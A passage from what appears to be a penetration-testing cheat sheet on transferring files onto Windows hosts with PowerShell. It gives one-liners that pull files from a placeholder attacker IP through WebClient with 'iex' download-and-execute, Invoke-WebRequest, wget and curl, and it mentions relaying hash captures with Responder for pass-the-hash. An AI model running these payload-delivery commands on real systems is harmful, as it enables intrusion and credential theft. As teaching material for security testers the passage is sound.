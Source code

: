 Typically, we use the `Net.Webclient` [class](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient?view=net-6.0) together with the corresponding `downloadString`method, which naively downloads anything we point it to, without checking the contents of the remote resource (thank you for that). 

_In this case the remote file name will be the same after the download._ 

>Invoke-Expression can be abbreviated with `iex` in PowerShell which makes it a lot less typo-error prone. 

```bash
PS C:\> iex (New-Object Net.WebClient).downloadString("http://<attackerIP>:<port>/file_to_be_uploaded.exe")

# or 

PS C:\> echo -n 'iex (New-Object Net.WebClient).downloadString("http://<attackerIP>:<port>/file_to_be_uploaded.exe")'
```

### 4. Invoke-WebRequest
Another option is to use the `Invoke-WebRequest` cmdlet, should `Powershell Version 3` and newer be available. 
Under the hood, it uses Internet Explorer Engine to parse the request/response and it will throw an error if the said engine is not installed. 
An easy way to fix it - use the `-UseBasicParsing` flag for all your requests, which in Powershell 6 became the new default anyhow. 
This cmdlet has another potentially dangerous side-effect when used together with Responder.py + `-UseDefaultCredentials`. 
An attacker could then for example exfiltrate the password hash for the current user and relay it to perform `pass-the-hash-attacks`. 

>Invoke-WebRequest can be abbreviated with `iwr` - wohooo.

```bash
PS C:\> iwr -UseBasicParsing -Uri "http://<attackerIP>:<port>/file_to_be_uploaded.exe" -Outfile <new_filename.exe>
```


### 5. powershell + wget
What would a child between Windows and Linux look like you ask? I don't know, but Microsoft enabled `wget`as a wrapper around Invoke-WebRequest, which means if the system has Powershell 3+ you should be able to use `wget` in windows. 
```bash
PS C:\> wget -UseBasicParsing http://<attackerIP>:<port>/file_to_be_uploaded.exe -O <new_filename.exe>
```

### 6. powershell + curl
The linux-love story is not over yet, [recently](https://devblogs.microsoft.com/commandline/tar-and-curl-come-to-windows/) Microsoft shipped native binaries for `tar` and `curl`, which means the real deal `curl` executable should now be available on Windows in both cmd and Powershell. 
Additionally, after PowerShell version 3, there was also an alias around Invoke-WebRequest which enabled similar syntax. 
